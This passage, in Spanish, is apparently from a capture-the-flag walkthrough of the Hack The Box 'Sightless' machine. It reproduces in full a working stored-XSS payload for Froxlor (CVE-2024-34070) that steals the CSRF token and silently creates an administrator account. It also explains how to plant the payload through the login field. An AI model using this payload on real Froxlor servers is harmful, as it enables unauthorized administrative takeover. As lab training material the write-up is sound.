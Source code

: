 Buscando por vulnerabilidades conocidas, encontramos el `CVE-2024-34070`, que es un XSS en la parte de registros de intentos de autenticación fallidos en la aplicación. Si hay un administrador que mira esta parte de la página y la aplicación es vulnerable, podríamos hacer cosas como crear un nuevo usuario administrativo o reiniciarle la contraseña al ya existente.

En la página de GitHub con el reporte de la vulnerabilidad, podemos encontrar un `payload.txt` que es lo siguiente:

{% raw %}
```js
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"https%3a//demo.froxlor.org/admin_admins.php"%3bvar+params%3d"new_loginname%3dabcd%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```
{% endraw%}

Esto va a crear un usuario administrador con nombre `abcd` y contraseña `Abcd@@1234` y le mostrará al usuario que su aplicación fue completamente comprometida, vamos a quitarle eso último, cambiarle la URL y colocar esto en el campo de nombre de usuario `loginname` interceptando la petición que se hace al iniciar sesión. Sobre la URL podemos simplemente colocar `admin.sightless.htb:8080` que está en el `/etc/hosts` de la máquina:

```bash
michael@sightless:~$ cat /etc/hosts                                     
127.0.0.1 localhost
127.0.1.1 sightless
127.0.0.1 sightless.htb sqlpad.sightless.htb admin.sightless.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

y es buena idea que usemos la dirección de admin porque si hay alguien viendo los logs, es seguro que esté utilizando este dominio. Al enviar la petición editada, esperando un rato e intentado iniciar sesión con las nuevas credenciales que hemos puesto, ganaremos acceso administrativo:
